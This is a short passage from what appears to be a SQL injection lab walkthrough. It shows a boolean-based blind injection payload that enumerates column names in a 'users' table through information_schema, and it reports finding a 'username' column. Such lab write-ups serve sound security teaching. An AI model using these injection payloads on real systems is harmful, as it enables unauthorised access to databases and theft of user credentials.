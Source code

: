 ![](Screenshots/boolean-based_identifying-password_column.png)

Now the query will look like:

`admin123' UNION SELECT 1,2,3 FROM information_schema.COLUMNS WHERE TABLE_SCHEMA='sqli_three' and TABLE_NAME='users' and COLUMN_NAME like 'a%' and COLUMN_NAME !='id' and COLUMN_NAME !='password';`

Cycling through the letters again reveals another column as `username`
